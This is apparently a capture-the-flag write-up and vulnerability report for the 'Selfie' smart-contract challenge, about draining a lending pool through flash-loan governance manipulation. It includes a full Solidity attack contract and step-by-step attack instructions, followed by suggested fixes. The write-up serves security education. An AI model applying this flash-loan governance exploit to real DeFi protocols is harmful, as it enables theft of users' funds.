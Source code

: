 # Selfie

A new lending pool has launched! It's now offering flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million at risk.

Rescue all funds from the pool and deposit them into the designated recovery account.

# Selfie Challenge - Vulnerability Report

## Overview
The Selfie challenge demonstrates a critical vulnerability in a governance system that allows an attacker to drain all funds from a lending pool by exploiting the flash loan mechanism and governance voting power. The vulnerability stems from the ability to temporarily acquire voting power through flash loans to propose and execute malicious actions.

## Challenge Description
The challenge consists of three main components:
1. A lending pool (`SelfiePool`) that offers flash loans of DVT tokens
2. A governance system (`SimpleGovernance`) that controls the pool
3. A voting token (`DamnValuableVotes`) that determines governance power

The goal is to drain all 1.5 million DVT tokens from the pool.

## Vulnerability Details

### Severity: Critical
- Impact: High - Allows complete draining of the pool
- Likelihood: High - Simple to exploit
- CVSS Score: 9.0

### Location
The vulnerability exists in the interaction between `SelfiePool` and `SimpleGovernance` contracts, specifically in how the governance system handles voting power and action execution.

### Impact
An attacker can drain all funds from the lending pool by:
1. Taking a flash loan to temporarily acquire voting power
2. Using that power to propose a malicious action
3. Executing the action after the required delay
4. Repaying the flash loan

### Root Cause
The vulnerability arises from two main issues:

1. **Temporary Voting Power**: The governance system doesn't distinguish between temporary and permanent voting power. This allows an attacker to use flash loans to temporarily acquire enough tokens to propose actions.

2. **Delayed Action Execution**: The governance system has a 2-day delay for executing actions, but this delay doesn't prevent the attack since the attacker can wait for the delay period to pass.

## Proof of Concept

```solidity
contract AttackContract is IERC3156FlashBorrower {
    SelfiePool pool;
    SimpleGovernance governance;
    DamnValuableVotes token;
    address recovery;
    uint256 actionId;
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    constructor(address _pool, address _governance, address _token, address _recovery) {
        pool = SelfiePool(_pool);
        governance = SimpleGovernance(_governance);
        token = DamnValuableVotes(_token);
        recovery = _recovery;
    }

    function startAttack() external {
        uint256 amount = SelfiePool(pool).maxFlashLoan(address(token));
        SelfiePool(pool).flashLoan(this, address(token), amount, "");
    }

    function onFlashLoan(
        address sender,
        address _token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        require(msg.sender == address(pool), "Pool is not sender");
        require(sender == address(this), "Sender is not the owner");

        token.delegate(address(this));

        bytes memory payload = abi.encodeWithSignature("emergencyExit(address)", recovery);
        actionId = governance.queueAction(address(pool), 0, payload);

        token.approve(address(pool), amount);
        return CALLBACK_SUCCESS;
    }

    function executeProposal() external {
        governance.executeAction(actionId);
    }
}
```

### Attack Steps
1. Deploy the attack contract with addresses for:
   - The pool (`SelfiePool`)
   - The governance contract (`SimpleGovernance`)
   - The token (`DamnValuableVotes`)
   - The recovery address

2. Call `startAttack()` which:
   - Takes a flash loan of all pool tokens
   - Uses the borrowed tokens to queue a governance action
   - Repays the flash loan

3. The `onFlashLoan` callback:
   - Verifies the sender is the pool
   - Delegates voting power to the attack contract
   - Creates and queues a call to `emergencyExit()` targeting the recovery address
   - Approves the pool to take back the borrowed tokens
   - Returns the required callback success value

4. Wait for the 2-day governance delay

5. Call `executeProposal()` to:
   - Execute the queued action
   - Drain all tokens to the recovery address

### Expected Outcome
- The pool's balance is reduced to 0
- All tokens are transferred to the recovery address
- The attack is executed in three steps:
  1. Deploy and initialize attack contract
  2. Execute flash loan and queue action
  3. Execute the queued action after delay

## Recommendations

### Short-term Fix
1. Add a minimum holding period for voting power:
```solidity
function _hasEnoughVotes(address who) private view returns (bool) {
    uint256 balance = _votingToken.getVotes(who);
    uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
    uint256 holdingTime = _votingToken.getPastVotes(who, block.timestamp - 7 days);
    return balance > halfTotalSupply && holdingTime > halfTotalSupply;
}
```

### Long-term Fixes
1. Implement a more robust governance system that:
   - Requires tokens to be locked for voting
   - Has a minimum holding period for voting power
   - Implements a timelock for all actions
2. Add additional checks in the pool's emergency exit function
3. Consider using a different governance mechanism that can't be manipulated through flash loans
4. Implement rate limiting for governance actions

## Additional Notes
This vulnerability is a classic example of how flash loans can be used to manipulate governance systems. The attack is possible because the governance system doesn't distinguish between temporary and permanent token holdings, allowing an attacker to temporarily acquire enough voting power to propose malicious actions.

## References
- [OpenZeppelin's Governance Implementation](https://docs.openzeppelin.com/contracts/4.x/api/governance)
- [Flash Loan Attacks](https://consensys.github.io/smart-contract-best-practices/attacks/flash-loans/)
- [Governance Best Practices](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/)
